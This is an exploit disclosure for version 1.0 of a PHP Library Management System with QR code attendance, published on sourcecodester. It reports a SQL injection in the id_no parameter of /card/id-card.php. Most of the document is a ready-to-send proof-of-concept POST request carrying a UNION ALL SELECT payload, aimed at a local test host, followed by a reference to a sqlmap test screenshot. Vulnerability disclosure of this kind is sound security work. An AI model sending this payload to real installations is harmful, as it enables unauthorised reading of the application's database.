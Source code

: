 # Library Management System with QR code Attendance and Auto Generate Library Card - SQL injections





### Date: 2022-08/05



### Exploit Author: anx0ing@gmail.com



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html



### Version: 1.0



### /card/id-card.php

> `id_no`Parameters have SQL injection

**SQL injection POC**

```
POST /LMS/card/id-card.php HTTP/1.1
Host: 172.20.10.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 112
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=8l03mutpmr44pg0gv96afbujmn
Origin: http://172.20.10.14
Referer: http://172.20.10.14/LMS/card/id-card.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

id_no=' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b707171,0x686a467041767a434e5574435a446348437562755059707141736f7047694178686e787163596d6e,0x717a6a7a71),NULL#&search=
```

**SQLMAP Test**

![image-20220804234643404](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220804234643404.png)


















